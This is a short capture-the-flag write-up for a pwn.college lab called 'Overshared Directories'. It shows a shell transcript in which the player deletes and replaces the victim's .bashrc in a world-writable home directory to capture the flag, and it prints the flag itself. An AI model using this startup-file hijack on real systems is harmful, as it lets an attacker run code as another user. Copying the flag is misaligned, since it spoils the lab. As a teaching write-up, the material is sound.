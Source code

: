 # Overshared Directories

Previously we had write access to .bashrc folder but now that zardus has grown wiser we are not allowed to edit .bashrc, instead we are given write access to `/home/hacker` folder, we need to take advantage of this to edit `.bashrc` to do the same thing it did in previous challenge.

## My Solve

So What we have to do here is `rm .bashrc` file, and then create a new one which we can edit, and then make it do the same thing we did in the last challenge.

```shell
hacker@shenanigans~overshared-directories:~$ cd /home/zardus/
hacker@shenanigans~overshared-directories:/home/zardus$ ls -la
total 20
drwxrwxrwx 2 zardus zardus 4096 Oct 11 07:51 .
drwxr-xr-x 1 root   root   4096 Oct 11 07:51 ..
-rw-r--r-- 1 zardus zardus  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 zardus zardus  148 Oct 11 07:51 .bashrc
-rw-r--r-- 1 zardus zardus  807 Feb 25  2020 .profile
hacker@shenanigans~overshared-directories:/home/zardus$ rm .bashrc
rm: remove write-protected regular file '.bashrc'? y
hacker@shenanigans~overshared-directories:/home/zardus$ nano .bashrc
hacker@shenanigans~overshared-directories:/home/zardus$ /challenge/victim 
Username: zardus
Password: **********
zardus@shenanigans~overshared-directories:~$ flag_checker
Type the flag;read var;echo
zardus@shenanigans~overshared-directories:~$ *************************************************************-bash: pwn.college{wl_4NbBAlwHjF9K585QRc_O92zS.0FM0EzNxwCM0gjNzEzW}: command not found
zardus@shenanigans~overshared-directories:~$ exit
logout
hacker@shenanigans~overshared-directories:/home/zardus$ 
```

